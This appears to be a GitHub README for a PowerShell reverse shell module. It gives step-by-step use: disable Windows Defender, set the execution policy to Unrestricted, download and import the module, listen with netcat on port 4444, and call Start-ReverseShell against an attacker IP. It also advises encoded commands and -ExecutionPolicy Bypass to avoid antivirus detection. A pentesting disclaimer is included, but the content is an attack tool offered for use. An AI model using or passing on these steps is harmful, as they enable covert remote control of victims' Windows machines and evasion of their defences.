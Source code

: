 # ReverseShell - PowerShell
# Author: okpalandev
# Version: 1.0
# Date: 2024-03-24

## Disclaimer
This script is designed for educational and penetration testing purposes only. Do not use this script on systems that you do not have permission to test. The author of this script is not responsible for any damage caused by the use of this script.

## Description
This script is a reverse shell that uses PowerShell to connect to a remote host. The script is designed to be run on the target machine and will connect back to the attacker's machine. The script can be run on any Windows machine that has PowerShell installed. The script will open a connection to the attacker's machine and allow the attacker to execute commands on the target machine. The script is designed to be used for penetration testing and should only be used on systems that you have permission to test.

## Usage
To use the script, you will need to modify the IP address and port number in the script to match the IP address and port number of the attacker's machine. You will also need to run the script on the target machine. Once the script is running on the target machine, it will connect back to the attacker's machine and allow the attacker to execute commands on the target machine.

## Installation
To install the script, you can download the script from the GitHub repository and save it to your local machine. You can then import the script into PowerShell and run the script on the target machine.

## Requirements
1) Disable Windows Defender Real Time Protection  or any other Antivirus 
2) Add to Policy Execution
3) Run a Terminal as Administrator

```powershell
PS C:\> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser 
``` 

## Example
```powershell
PS C:\> Invoke-WebRequest -Uri "https://raw.githubusercontent.com/okpalandev/PSModules/main/ReverseShell/Modules/ReverseShell.psm1" -OutFile "ReverseShell.psm1"
```

```powershell
PS C:\> Import-Module .\ReverseShell.psm1
```
Then on the attacker machine, you can listen for the connection using Netcat or any other tool that can listen for incoming connections on the specified port.

```bash
$ nc -lvp 4444
```
    
Finally, you can start the reverse shell on the target machine by running the following command:

```powershell
PS C:\> Start-ReverseShell -IP "attacker_ip" -Port " 4444 " 
```

It is best pratice to use encoded command to avoid detection by Antivirus
in a batch file you can use the following command to run the script.

```batch
@echo off
powershell -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File "C:\path\to\ReverseShell.psm1"
```

In the script, you can use the following command to encode the script.

```batch
@echo off # Don't forget to add the ampersand at the beginning of the command.
powershell -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -EncodedCommand "& EncodedCommand"
````


